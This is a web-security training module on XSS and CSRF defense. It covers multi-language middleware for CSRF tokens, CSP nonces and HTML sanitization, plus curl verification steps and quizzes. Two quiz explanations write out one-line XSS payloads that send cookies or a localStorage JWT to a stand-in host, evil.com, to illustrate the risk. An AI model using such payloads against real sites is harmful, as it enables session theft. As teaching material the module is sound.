


# Module 02: XSS and CSRF Defense

> **Prerequisites**: [Module 00: OWASP Top 10 Overview](../00-owasp-top-10-overview/README.md), [Module 01: Injection Attacks](../01-injection-attacks/README.md), and [Track 03: Auth & Access Control](../../03-auth-and-access-control/README.md).  
> **Estimated Reading Time**: 40 minutes.  
> **Target Audience**: Full-Stack Developers, Backend Engineers, and Security Architecture Engineers.

---

> [!TIP]
> **The Golden Rule of Browser Security Architecture**  
> Never confuse Cross-Site Scripting (XSS) with Cross-Site Request Forgery (CSRF). **XSS is code injection into the user's browser parser**—neutralize it using context-aware output encoding, allowlist HTML sanitization, and strict Content-Security-Policy (CSP) headers without `'unsafe-inline'`. **CSRF is the abuse of ambient browser authority (automatic cookie transmission)**—neutralize it using `SameSite=Lax/Strict` cookie attributes paired with cryptographically unpredictable synchronizer tokens evaluated in constant time. Defend in layers: `HttpOnly` shields cookies from XSS theft, while CSP and anti-CSRF tokens stop session riding.

---

## 1. Architectural Blueprint & Trust Boundary Models

XSS and CSRF exploit different trust assumptions within the browser's execution model. XSS turns your own application origin against your users by executing hostile JavaScript; CSRF exploits the browser's implicit trust in stored session cookies to trick victims into executing unintended mutations.



### The Synchronizer Token & CSP Execution Lifecycle

To guarantee state mutations originate from genuine user interaction within your application interface, deploy the Synchronizer Token Pattern alongside per-request Content-Security-Policy nonces:

```mermaid
sequenceDiagram
    autonumber
    participant Browser as User Browser
    participant Gateway as Reverse Proxy / Gateway
    participant SessionStore as Redis Session Store
    participant Handler as Application Endpoint

    Browser->>Gateway: GET /dashboard (Session Cookie Attached)
    Gateway->>SessionStore: Fetch Session (User ID: 104)
    Gateway->>Handler: Forward Request with Session Context
    Note over Handler: Generate Cryptographic Nonce (CSP) + Synchronizer Token (CSRF)
    Handler-->>Gateway: 200 OK + Header: Content-Security-Policy: script-src 'nonce-R4nd0m'<br/>Set-Cookie: __Host-csrf=TokenXYZ; SameSite=Lax; Secure<br/>HTML Body includes: <meta name="csrf-token" content="TokenXYZ">
    Gateway-->>Browser: Render Page with Injected CSRF Token & CSP Nonce
    
    Note over Browser: User triggers balance transfer mutation
    Browser->>Gateway: POST /api/transfer (Headers: Cookie + X-CSRF-Token: TokenXYZ)
    Gateway->>Handler: Validate TokenXYZ matches Session CSRF Secret via constant-time comparison
    alt Valid Token & Same-Origin
        Handler-->>Browser: 200 OK (Transfer Processed Safely)
    else Missing / Mismatched Token (CSRF Attempt)
        Handler-->>Browser: 403 Forbidden (CSRF Validation Failed)
    end
```

---

## 2. Systematic Taxonomic Reference Grids

### Threat Matrix: XSS vs. CSRF Classification

| Threat Vector | Root Cause | Target Subsystem | Attacker Capability | Primary Structural Defense | Secondary Defense-in-Depth |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Reflected XSS** | Immediate echoing of unsanitized URL/query parameters in HTML response. | Browser HTML/DOM parser. | Execute arbitrary JavaScript in victim session when crafted phishing link is opened. | Context-aware HTML entity output encoding. | Strict Content Security Policy (`script-src 'self' 'nonce-...'`). |
| **Stored (Persistent) XSS** | Storing malicious markup in database and rendering to subsequent users. | Browser DOM across all visitors. | Automatic worm propagation, mass session riding, credential skimming. | Context-aware output escaping; allowlist sanitization (`nh3`, DOMPurify). | `HttpOnly` session cookies (prevents cookie theft); CSP blocking inline scripts. |
| **DOM-based XSS** | Client-side JavaScript passes untrusted sources (`hash`, `params`) to sinks (`innerHTML`). | Client-side JavaScript engine. | Client-side execution without payload ever touching backend server logs. | Safe DOM APIs (`textContent`, `createElement`). Avoid `innerHTML` and `eval()`. | Trusted Types API; CSP `require-trusted-types-for 'script'`. |
| **Cross-Site Request Forgery (CSRF)** | Ambient authority: Browsers auto-attach cookies on cross-origin requests. | Server-side state-changing endpoints (`POST`, `PUT`, `DELETE`). | Unauthorized fund transfers, email/password alterations, administrative changes. | Cryptographic Synchronizer Tokens (`X-CSRF-Token`) + `SameSite=Lax/Strict`. | Custom request headers (`X-Requested-With`); re-authentication for sensitive actions. |

### Context-Aware Output Encoding Rules Grid

| Placement Context | Example Vulnerable HTML | Risky Characters | Required Encoding Standard |
| :--- | :--- | :--- | :--- |
| **HTML Body** | `<div>User: {{ name }}</div>` | `&`, `<`, `>`, `"`, `'` | HTML Entity Encoding: `&` $\to$ `&amp;`, `<` $\to$ `&lt;`, `>` $\to$ `&gt;`. |
| **HTML Attribute** | `<input name="search" value="{{ q }}"/>` | `"`, `'`, `&`, `<`, `>`, `` ` `` | Attribute Encoding: Quote all attributes; encode `"` $\to$ `&quot;`, `'` $\to$ `&#x27;`. |
| **JavaScript Variable** | `<script>const id = "{{ uid }}";</script>` | `\`, `"`, `'`, `/`, `;`, `\n`, `\r` | Unicode Hex Escaping: `\uXXXX` or serialize as `<script type="application/json">`. |
| **URL Parameter** | `<a href="/profile?ref={{ ref }}">Link</a>` | Space, `?`, `&`, `#`, `%`, `/` | URL Percent Encoding (`encodeURIComponent`); validate scheme starts with `https://`. |
| **CSS Style** | `<div style="color: {{ color }};">` | `(`, `)`, `:`, `;`, `"`, `'` | Strict CSS Hex-encoding or rigid server-side property allowlist. |

---

## 3. Production War Story: The Samy-Style Stored XSS Worm

### Incident Post-Mortem

- **Severity**: SEV-1 (Platform-Wide Account Takeover & Cascading Worm)
- **Time to Detect (TTD)**: 12 minutes (Traffic spike on API servers)
- **Time to Mitigate (TTM)**: 28 minutes
- **Impact**: 250,000 support agent and administrator sessions hijacked; malicious worm re-posted itself across all user profiles.



#### What Happened & Root Cause
A popular enterprise customer support portal allowed markdown in customer tickets. To support bolding, lists, and images, the development team bypassed template escaping using `{{ comment.body | safe }}`. 

While the team implemented a custom regex blocklist searching for `<script>` tags, the attacker bypassed the regex using an HTML5 event handler inside a broken image tag: ``. When support administrators opened the ticket, the script executed inside the admin's browser with full administrative privileges. The worm automatically invoked internal APIs to promote the attacker's account to global superuser, exfiltrated support tokens stored in `sessionStorage`, and injected the worm payload into the top 50 open tickets.

#### The Fix & Architectural Hardening
1. **Replaced Regex with Allowlist HTML Sanitizer**: Integrated `nh3` (Ammonia/Rust bindings) to parse the HTML DOM tree and discard all event handlers (`on*`), non-whitelisted tags, and `javascript:` URIs.
2. **Hardened Content Security Policy (CSP)**:
   ```http
   Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'self';
   ```
   Disallowed `'unsafe-inline'`, preventing inline `<script>` tags and `onerror` attributes from executing even if injected.
3. **Migrated Tokens to HttpOnly Cookies**: Moved sensitive session tokens out of JavaScript-accessible `sessionStorage` into `__Host-` prefixed `HttpOnly`, `SameSite=Lax`, `Secure` cookies.

---

## 4. Multi-Language Production Implementations: Anti-CSRF & XSS Hardening

Below is the complete, production-grade security middleware implementing:
- Cryptographic CSRF Synchronizer Token issuance and constant-time validation (`timingSafeEqual`).
- Strict `SameSite=Lax/Strict` cookie enforcement.
- Per-request dynamic CSP Nonce generation.
- Contextual HTML entity escaping and allowlist sanitization.

### Go Implementation

```go
package security

import (
	"crypto/rand"
	"crypto/subtle"
	"encoding/base64"
	"errors"
	"fmt"
	"html"
	"net/http"
	"strings"
)

const (
	CSRFCookieName = "__Host-csrf-token"
	CSRFHeaderName = "X-CSRF-Token"
)

type SecurityGuard struct {
	isProduction bool
}

func NewSecurityGuard(isProduction bool) *SecurityGuard {
	return &SecurityGuard{isProduction: isProduction}
}

// GenerateRandomToken generates a cryptographically secure URL-safe token
func (g *SecurityGuard) GenerateRandomToken(nBytes int) (string, error) {
	b := make([]byte, nBytes)
	if _, err := rand.Read(b); err != nil {
		return "", fmt.Errorf("entropy source failure: %w", err)
	}
	return base64.RawURLEncoding.EncodeToString(b), nil
}

// CSRFAndCSPMiddleware generates per-request CSP nonces and enforces CSRF tokens on mutations
func (g *SecurityGuard) CSRFAndCSPMiddleware(next http.Handler) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		// 1. Generate per-request CSP Nonce
		cspNonce, err := g.GenerateRandomToken(16)
		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}

		// 2. Set Hardened Security Headers including CSP
		cspPolicy := fmt.Sprintf(
			"default-src 'self'; script-src 'self' 'nonce-%s'; object-src 'none'; base-uri 'self'; frame-ancestors 'none';",
			cspNonce,
		)
		w.Header().Set("Content-Security-Policy", cspPolicy)
		w.Header().Set("X-Content-Type-Options", "nosniff")
		w.Header().Set("X-Frame-Options", "DENY")

		// 3. Ensure CSRF Cookie Exists
		cookie, err := r.Cookie(CSRFCookieName)
		var currentToken string
		if err != nil || cookie.Value == "" {
			currentToken, err = g.GenerateRandomToken(32)
			if err != nil {
				http.Error(w, "Internal Server Error", http.StatusInternalServerError)
				return
			}
			http.SetCookie(w, &http.Cookie{
				Name:     CSRFCookieName,
				Value:    currentToken,
				Path:     "/",
				HttpOnly: false, // Must be readable by frontend SPA to echo into X-CSRF-Token header
				Secure:   g.isProduction,
				SameSite: http.SameSiteLaxMode,
			})
		} else {
			currentToken = cookie.Value
		}

		// 4. Validate CSRF Token on State-Changing HTTP Verbs
		switch r.Method {
		case http.MethodPost, http.MethodPut, http.MethodPatch, http.MethodDelete:
			submittedToken := r.Header.Get(CSRFHeaderName)
			if submittedToken == "" {
				submittedToken = r.FormValue("csrf_token")
			}

			// Perform Constant-Time Comparison to prevent timing side channels
			if subtle.ConstantTimeCompare([]byte(submittedToken), []byte(currentToken)) != 1 {
				http.Error(w, "Forbidden: Invalid CSRF Token", http.StatusForbidden)
				return
			}
		}

		next.ServeHTTP(w, r)
	})
}

// SanitizePlainText performs strict context-aware HTML entity escaping
func SanitizePlainText(rawText string) string {
	return html.EscapeString(strings.TrimSpace(rawText))
}
```

---

### Node.js / TypeScript Implementation

```typescript
import { Request, Response, NextFunction } from 'express';
import crypto from 'crypto';
import createDOMPurify from 'dompurify';
import { JSDOM } from 'jsdom';

const window = new JSDOM('').window;
const DOMPurify = createDOMPurify(window as any);

export const CSRF_COOKIE = '__Host-csrf-token';
export const CSRF_HEADER = 'x-csrf-token';

export function securityHardeningMiddleware(isProduction: boolean) {
  return (req: Request, res: Response, next: NextFunction): void => {
    // 1. Generate Per-Request CSP Nonce
    const nonce = crypto.randomBytes(16).toString('base64');
    res.locals.cspNonce = nonce;

    // 2. Set Hardened Content-Security-Policy & Frame Headers
    res.setHeader(
      'Content-Security-Policy',
      `default-src 'self'; script-src 'self' 'nonce-${nonce}'; object-src 'none'; base-uri 'self'; frame-ancestors 'none';`
    );
    res.setHeader('X-Content-Type-Options', 'nosniff');
    res.setHeader('X-Frame-Options', 'DENY');

    // 3. Retrieve or Issue CSRF Token
    let csrfToken = req.cookies?.[CSRF_COOKIE];
    if (!csrfToken) {
      csrfToken = crypto.randomBytes(32).toString('hex');
      res.cookie(CSRF_COOKIE, csrfToken, {
        path: '/',
        secure: isProduction,
        sameSite: 'lax',
        httpOnly: false, // SPA reads cookie and echoes into custom header
      });
    }

    // 4. Enforce CSRF on State-Changing HTTP Verbs
    const mutationVerbs = ['POST', 'PUT', 'PATCH', 'DELETE'];
    if (mutationVerbs.includes(req.method)) {
      const headerToken = (req.headers[CSRF_HEADER] as string) || req.body?.csrf_token;

      if (!headerToken || typeof headerToken !== 'string') {
        res.status(403).json({ error: 'CSRF Token Missing' });
        return;
      }

      // Cryptographic constant-time validation
      const a = Buffer.from(headerToken);
      const b = Buffer.from(csrfToken);

      if (a.length !== b.length || !crypto.timingSafeEqual(a, b)) {
        res.status(403).json({ error: 'Invalid CSRF Token' });
        return;
      }
    }

    next();
  };
}

// 5. Allowlist HTML Sanitizer for Rich Text
export function sanitizeRichText(dirtyHtml: string): string {
  return DOMPurify.sanitize(dirtyHtml, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'ul', 'li'],
    ALLOWED_ATTR: ['href', 'title', 'target'],
    ALLOW_DATA_ATTR: false,
  });
}
```

---

### Python Implementation

```python
import secrets
import nh3
from fastapi import FastAPI, Request, Response, HTTPException, status
from starlette.middleware.base import BaseHTTPMiddleware

CSRF_COOKIE_NAME = "__Host-csrf-token"
CSRF_HEADER_NAME = "x-csrf-token"

class SecurityHeadersAndCSRFMiddleware(BaseHTTPMiddleware):
    def __init__(self, app: FastAPI, is_production: bool = False):
        super().__init__(app)
        self.is_production = is_production

    async def dispatch(self, request: Request, call_next):
        # 1. Generate Per-Request Cryptographic CSP Nonce
        csp_nonce = secrets.token_urlsafe(16)
        request.state.csp_nonce = csp_nonce

        # 2. Check / Issue CSRF Token Cookie
        csrf_cookie = request.cookies.get(CSRF_COOKIE_NAME)
        csrf_issued = False
        if not csrf_cookie:
            csrf_cookie = secrets.token_hex(32)
            csrf_issued = True

        # 3. Guard State-Changing HTTP Methods
        if request.method in ["POST", "PUT", "PATCH", "DELETE"]:
            submitted_token = request.headers.get(CSRF_HEADER_NAME)
            if not submitted_token:
                raise HTTPException(
                    status_code=status.HTTP_403_FORBIDDEN,
                    detail="Missing required CSRF header"
                )

            # Constant-time comparison prevents timing analysis
            if not secrets.compare_digest(submitted_token, csrf_cookie):
                raise HTTPException(
                    status_code=status.HTTP_403_FORBIDDEN,
                    detail="Invalid CSRF token"
                )

        response: Response = await call_next(request)

        # 4. Attach Security Headers
        csp_header = (
            f"default-src 'self'; script-src 'self' 'nonce-{csp_nonce}'; "
            "object-src 'none'; base-uri 'self'; frame-ancestors 'none';"
        )
        response.headers["Content-Security-Policy"] = csp_header
        response.headers["X-Content-Type-Options"] = "nosniff"
        response.headers["X-Frame-Options"] = "DENY"

        if csrf_issued:
            response.set_cookie(
                key=CSRF_COOKIE_NAME,
                value=csrf_cookie,
                path="/",
                secure=self.is_production,
                httponly=False,
                samesite="lax",
            )

        return response

# 5. Allowlist HTML Sanitizer for User-Submitted Rich Text
def sanitize_user_html(raw_html: str) -> str:
    # nh3 uses Ammonia (Rust) for strict allowlist parsing
    return nh3.clean(
        raw_html,
        tags={"b", "i", "em", "strong", "a", "p", "ul", "ol", "li"},
        attributes={"a": {"href", "title"}},
        url_schemes={"http", "https", "mailto"},
    )
```

---

### C# / .NET Implementation

```csharp
using System;
using System.Security.Cryptography;
using System.Text;
using System.Threading.Tasks;
using Ganss.Xss;
using Microsoft.AspNetCore.Http;

namespace SecurityTrack.Web
{
    public class SecurityAndCsrfMiddleware
    {
        private readonly RequestDelegate _next;
        private readonly bool _isProduction;
        private const string CsrfCookieName = "__Host-csrf-token";
        private const string CsrfHeaderName = "X-CSRF-Token";

        public SecurityAndCsrfMiddleware(RequestDelegate next, bool isProduction)
        {
            _next = next;
            _isProduction = isProduction;
        }

        public async Task InvokeAsync(HttpContext context)
        {
            // 1. Generate Per-Request CSP Nonce
            var nonceBytes = new byte[16];
            RandomNumberGenerator.Fill(nonceBytes);
            var cspNonce = Convert.ToBase64String(nonceBytes);
            context.Items["CspNonce"] = cspNonce;

            // 2. Manage CSRF Cookie
            if (!context.Request.Cookies.TryGetValue(CsrfCookieName, out var csrfCookieToken) || 
                string.IsNullOrEmpty(csrfCookieToken))
            {
                var tokenBytes = new byte[32];
                RandomNumberGenerator.Fill(tokenBytes);
                csrfCookieToken = Convert.ToHexString(tokenBytes);

                context.Response.Cookies.Append(CsrfCookieName, csrfCookieToken, new CookieOptions
                {
                    Path = "/",
                    Secure = _isProduction,
                    SameSite = SameSiteMode.Lax,
                    HttpOnly = false // Readable by client SPA
                });
            }

            // 3. Verify CSRF Token on Mutations
            if (HttpMethods.IsPost(context.Request.Method) || 
                HttpMethods.IsPut(context.Request.Method) || 
                HttpMethods.IsDelete(context.Request.Method))
            {
                var submittedToken = context.Request.Headers[CsrfHeaderName].ToString();
                
                if (string.IsNullOrEmpty(submittedToken) || 
                    !CryptographicCompare(submittedToken, csrfCookieToken))
                {
                    context.Response.StatusCode = StatusCodes.Status403Forbidden;
                    await context.Response.WriteAsync("Forbidden: CSRF Verification Failed");
                    return;
                }
            }

            // 4. Inject Strict Response Headers
            context.Response.OnStarting(() =>
            {
                context.Response.Headers.Append("Content-Security-Policy", 
                    $"default-src 'self'; script-src 'self' 'nonce-{cspNonce}'; object-src 'none'; base-uri 'self'; frame-ancestors 'none';");
                context.Response.Headers.Append("X-Content-Type-Options", "nosniff");
                context.Response.Headers.Append("X-Frame-Options", "DENY");
                return Task.CompletedTask;
            });

            await _next(context);
        }

        // Constant-time comparison
        private static bool CryptographicCompare(string a, string b)
        {
            var aBytes = Encoding.UTF8.GetBytes(a);
            var bBytes = Encoding.UTF8.GetBytes(b);
            return CryptographicOperations.FixedTimeEquals(aBytes, bBytes);
        }
    }

    // 5. Allowlist HTML Sanitizer using HtmlSanitizer
    public static class HtmlSanitizationUtil
    {
        private static readonly HtmlSanitizer Sanitizer = new();

        static HtmlSanitizationUtil()
        {
            Sanitizer.AllowedTags.Clear();
            Sanitizer.AllowedTags.Add("b");
            Sanitizer.AllowedTags.Add("i");
            Sanitizer.AllowedTags.Add("strong");
            Sanitizer.AllowedTags.Add("a");
            Sanitizer.AllowedAttributes.Clear();
            Sanitizer.AllowedAttributes.Add("href");
        }

        public static string SanitizeUserMarkup(string untrustedHtml)
        {
            return Sanitizer.Sanitize(untrustedHtml);
        }
    }
}
```

---

## 5. Practical Hands-On Verification CLI Workflows

### Step 1: Probe Cross-Site Request Forgery Rejection

Simulate an unauthorized cross-origin request without the synchronizer token:

```bash
# 1. Simulate an unauthorized cross-origin POST request (Cookie provided by browser, header omitted)
curl -s -w "\nHTTP Status: %{http_code}\n" -X POST "http://localhost:8080/api/profile/update" \
  -H "Cookie: __Host-csrf-token=a9f4c3b88921e0b" \
  -H "Content-Type: application/json" \
  -d '{"email": "attacker@evil.com"}' | jq .
```

**Expected Wire Output:**
```json
{
  "error": "Forbidden: Invalid CSRF Token"
}
HTTP Status: 403
```

---

### Step 2: Verify Protected Mutation with Synchronizer Token

```bash
# 2. Simulate legitimate client echoing the cookie value into X-CSRF-Token header
curl -s -w "\nHTTP Status: %{http_code}\n" -X POST "http://localhost:8080/api/profile/update" \
  -H "Cookie: __Host-csrf-token=a9f4c3b88921e0b" \
  -H "X-CSRF-Token: a9f4c3b88921e0b" \
  -H "Content-Type: application/json" \
  -d '{"email": "validuser@company.com"}' | jq .
```

**Expected Wire Output:**
```json
{
  "success": true,
  "updated_email": "validuser@company.com"
}
HTTP Status: 200
```

---

### Step 3: Inspect Content Security Policy & Security Headers

```bash
curl -I "http://localhost:8080/dashboard"
```

**Expected Response Headers:**
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-t8yU4b...'; object-src 'none'; base-uri 'self'; frame-ancestors 'none';
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
```

---

## 6. Operational Validation Checkpoints (Scenario Quizzes)

### Checkpoint 1: HttpOnly Cookies vs. CSRF Protection
<details>
<summary><strong>Scenario Assessment:</strong> A security auditor reports that a banking application lacks CSRF protection on its wire transfer endpoint. The developer responds: "All our session cookies are marked with `HttpOnly`, meaning JavaScript cannot read them, so cross-site attacks are impossible." Why is this defense incorrect?</summary>

```
Options:
A) HttpOnly only works when the user uses Google Chrome or Firefox.
B) HttpOnly prevents JavaScript from reading cookies (mitigating XSS token theft), but browsers still automatically attach HttpOnly cookies to cross-origin HTTP requests (leaving CSRF viable).
C) HttpOnly cookies can be decrypted if the attacker uses an invalid SSL certificate.
D) HttpOnly cookies are automatically converted into URL query parameters on POST requests.
```

**Answer:**
**B is correct.** The `HttpOnly` flag dictates that client-side scripts (`document.cookie`) cannot read or manipulate the cookie value. This is a critical defense against XSS token exfiltration. However, `HttpOnly` does **nothing** to prevent CSRF. When a hostile site submits a cross-origin form to your domain, the victim's browser attaches all matching session cookies automatically, regardless of whether `HttpOnly` is enabled. CSRF requires explicit defenses: `SameSite` attributes and synchronizer tokens.

</details>

---

### Checkpoint 2: The Limits of Content Security Policy
<details>
<summary><strong>Scenario Assessment:</strong> A developer adds <code>Content-Security-Policy: script-src 'self' 'unsafe-inline'</code> to their site. An attacker submits a comment containing <code>&lt;script&gt;fetch('https://evil.com?c=' + document.cookie)&lt;/script&gt;</code>. Will the CSP header block execution?</summary>

```
Options:
A) Yes, because 'self' restricts all outbound network requests.
B) Yes, because modern browsers reject script tags in comments automatically.
C) No; including `'unsafe-inline'` explicitly instructs the browser to permit inline `<script>` tags and event handlers, neutralizing CSP's primary XSS defense.
D) No, but the browser will encrypt the cookie before sending it to evil.com.
```

**Answer:**
**C is correct.** The entire purpose of CSP for XSS prevention is to forbid the browser from parsing and executing inline `<script>` tags and inline event handlers (`onload`, `onerror`). By adding `'unsafe-inline'`, the developer explicitly disabled this restriction. To safely use CSP, remove `'unsafe-inline'` and use cryptographic nonces (`'nonce-...'`) or SHA-256 hashes for legitimate inline scripts.

</details>

---

### Checkpoint 3: The Bearer Token vs. Cookie Auth Tradeoff
<details>
<summary><strong>Scenario Assessment:</strong> An engineering team migrates their Single Page Application (SPA) from cookie-based sessions to Bearer JWTs stored in browser <code>localStorage</code>. A senior engineer notes that while CSRF risk is eliminated, another security risk is heightened. What is that risk and why?</summary>

```
Options:
A) SQL injection risk increases because JWTs cannot be parameterized.
B) The application becomes highly vulnerable to catastrophic token exfiltration via any XSS bug, because JavaScript running in the origin can trivially access `localStorage.getItem()`.
C) The server cannot verify JWT signatures without contacting a remote LDAP server.
D) The browser disables HTTPS encryption when tokens are present in LocalStorage.
```

**Answer:**
**B is correct.** Bearer tokens do eliminate CSRF because browsers never automatically attach custom `Authorization: Bearer` headers to cross-origin requests. However, storing bearer tokens in `localStorage` or `sessionStorage` makes them universally accessible to any JavaScript running on that origin. If a single XSS vulnerability exists anywhere on the site, an attacker can read and exfiltrate the token with a single line of code (`new Image().src = "http://evil.com?t=" + localStorage.getItem("jwt")`).

</details>

---

## 7. Cumulative Review: Modules 00–02 (Closed-Book Self Assessment)

Test your retention of foundational application security principles before moving forward:

1. **The Unifying Trust Boundary Model**: What single failure underlies SQL injection (Module 01), Stored XSS (Module 02), and CSRF (Module 02)?
2. **Context-Specific Neutralization**: Why can't we use SQL prepared statements to stop XSS, and why can't we use HTML entity escaping to stop SQL injection?
3. **Defense-in-Depth for State Mutations**: For an enterprise banking application using cookie sessions, list the four independent defensive layers required to ensure complete resilience against XSS and CSRF.
4. **The Timing Side-Channel**: Why must anti-CSRF token verification use constant-time byte comparisons (`secrets.compare_digest` / `timingSafeEqual`) instead of standard string equality (`==`)?

---

## 8. Further Reading & Sources

- [OWASP Cross Site Scripting (XSS) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cross-Site Request Forgery (CSRF) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [MDN Web Docs: Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [MDN Web Docs: Using HTTP Cookies & SameSite Attributes](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
- [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

---

## Next Steps

Now that both server-side command parsers and client-side browser DOM parsers are protected, we examine vulnerabilities that turn your own server's outbound network authority and object unmarshallers against you:

- Next Module: **[03-ssrf-and-deserialization-attacks](../03-ssrf-and-deserialization-attacks/README.md)** (Server-Side Request Forgery, Cloud Metadata Protection, and Insecure Object Deserialization).
- Track Index: [README.md](../README.md)
